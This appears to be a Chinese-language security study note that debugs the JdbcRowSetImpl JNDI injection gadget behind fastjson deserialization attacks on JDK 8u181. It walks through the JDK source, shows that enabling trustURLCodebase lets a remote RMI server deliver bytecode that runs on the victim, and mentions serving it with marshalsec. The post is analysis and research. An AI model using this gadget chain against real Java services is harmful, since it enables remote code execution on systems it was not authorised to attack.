


### com.sun.rowset.JdbcRowSetImpl
目前要进行jndi注入，需要满足两个条件，在受害者要存在以下代码，且uri可控
```java
String uri = "xxx";
Context ctx = new InitialContext();
ctx.lookup(uri);
```
`com.sun.rowset.jdbcRowSetImpl`，是fastjson反序列化漏洞触发jndi注入的一环
查看jdbcRowSetImpl，我们客户端这样写

```java
JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();//只是为了方便调用
JdbcRowSetImpl_inc.setDataSourceName("rmi://127.0.0.1:1099/aa");
JdbcRowSetImpl_inc.setAutoCommit(true);
```
运行起来报错是jndi unable connect，web服务也没有收到请求，客户端更不会执行恶意的字节码，
打断点调试，从而也进一步分析 
**jdk 版本8u181**


我们在`setAutoCommit(true)`处打断点，强制进入可以看见如下代码


```java
// JdbcRowSetImpl.java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) { //不进入
        this.conn.setAutoCommit(var1);
    } else {
        this.conn = this.connect(); // 进入此处,进行连接
        this.conn.setAutoCommit(var1); // 设置autoCommit为true
    }

}
```
在这里我们会进行下一步连接，我们继续看，325，326 行不就是标准的jndi注入吗？ 存在`new InitialContext()`，且`lookup(this.getDataSourceName)`，DataSourceName在初始的时候是setDataSourceName的，该值我们也是可控的
```java
// JdbcRowSetImpl.java connect() 关键代码
private Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            InitialContext var1 = new InitialContext();
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName()); //强制进入lookup，查看无法执行的原因
            return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
        } catch (NamingException var3) {
            throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
        }
    } else {
        return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
    }
}
```
又回到最开始调试JNDI注入的lookup处，我们继续跟进，进入lookup


再次进入lookup


进入decodeObject


走到这里发现居然抛出了错误，但是却看不见，这个错误也就是jdk8u181 的codebase错误，需要设置 `trustURLCodebase`为true


可以看到没有调用NamingManager.getObjectInstance函数，直接异常捕获了


最后在这里直接close掉，所以并没有去获取到恶意字节码，就直接关闭连接了


为了避免这个尴尬局面，我在客户端设置属性 `System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");`再来尝试一下，
发现设置codebase为true之后，就可以下载恶意字节码，并实例化执行constructor函数，弹出计算器


在实际渗透中，一般使用marshalsec启动rmi或者ldap
下载marshalsec,查看marshalsec.jndi.RMIRefServer 文件，启动参数即是 `codebase_url#classname port`  默认端口是1099


使用工具效果如下


